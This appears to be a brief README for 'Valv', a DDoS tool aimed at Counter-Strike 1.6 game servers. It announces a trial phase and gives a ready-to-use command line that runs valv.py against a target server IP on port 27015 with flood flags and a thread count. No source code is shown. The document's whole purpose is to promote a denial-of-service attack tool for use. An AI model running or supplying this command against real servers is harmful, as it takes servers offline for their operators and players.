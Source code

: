 # Valv DDOS IS NOW IN TRIAL PHASE!
ThankYou!
./valv.py -U -T0 -T1 -T2 -T3 -h server ip -p 27015,27015 -t 1999 COUNTER STRİKE 1.6 DDOS 
